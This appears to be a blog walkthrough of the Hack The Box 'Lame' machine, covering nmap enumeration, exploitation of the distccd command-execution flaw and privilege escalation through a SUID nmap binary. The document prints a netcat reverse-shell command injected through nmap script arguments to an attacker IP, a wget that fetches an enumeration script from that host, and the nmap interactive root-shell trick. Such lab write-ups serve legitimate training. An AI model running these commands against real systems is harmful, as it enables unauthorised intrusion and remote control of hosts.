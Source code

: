 ![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2022-09-25-at-2.29.25-PM.png)

**Three phases:**

- **Enumeration**
- **Exploitation**
- **Privilege Escalation**

### Enumeration

Let’s start by doing an nmap scan of the machine:

`nmap -sC -sV -O -oA nmap/lame1000 10.10.10.3`

Output:

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-1.34.32-PM.png)

As we can see that we have the following ports open:

- **21/ftp – vsftpd 2.3.4**
- **22/ssh – OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)**
- **139, 445/smb – netbios-ssn**

The ports of our interest are the 21/ftp and 139, 445/smb ports.

After logging into the ftp server using creds: anonymous/anything (TIP: when anonymous login is allowed, you can use username as anonymous and any password, even a blank password would work), we could find anything that interesting so let’s move on to the next endpoint.

Researching about smb ports of 139 and 445 and their service versions for some vulnerabilities, we couldn’t find anything there either.

Now, doing a full port scan to check for more open ports:

`nmap -sC -sV -p- -oA nmap/lamefull 10.10.10.3`

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-1.50.51-PM.png)

As we can see above, that there is another port open: 3432/disccd

Researching about this port we find out that the service distccd is used for faster compilation, where if a machine is sitting idle, then code from one machine can be sent to it and hence it will compile the code for you, only if this service is present on both hosts.

We could find nmap scripts which would scan for vulnerabilities for this service and we got the following results:

`nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3`

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-4.29.55-PM.png)

As we can see from the image above, that the distccd service is vulnerable to daemon command execution.

### Exploitation

Using the nmap script to run commands:

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.7 4444 -e /bin/bash'"`

And setting up a listener on our kali machine to get back a reverse shell:

sudo nc -nlvp 4444

Hence, we get back a reverse shell as user daemon.

### Privilege Escalation

Now transferring over LinEnum.sh to check for malicious information:

`wget http://10.10.14.7/LinEnum.sh`

Running LinEnum.sh we find that the nmap binary has suid enabled. Hence, we can use it to escalate our privileges to root using nmap’s interactive mode to spawn a bash shell!

`sudo nmap --interactive`

`>!sh`

Therefore, we are root!

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Poison](https://vedanttare.com/hackthebox-poison/)

<iframe class="wp-embedded-content" data-secret="TNSIb5Z1Dn" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-poison/embed/#?secret=JH3MaSn6Y1#?secret=TNSIb5Z1Dn" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Poison” — VEDANT TARE" width="600"></iframe></div></figure>

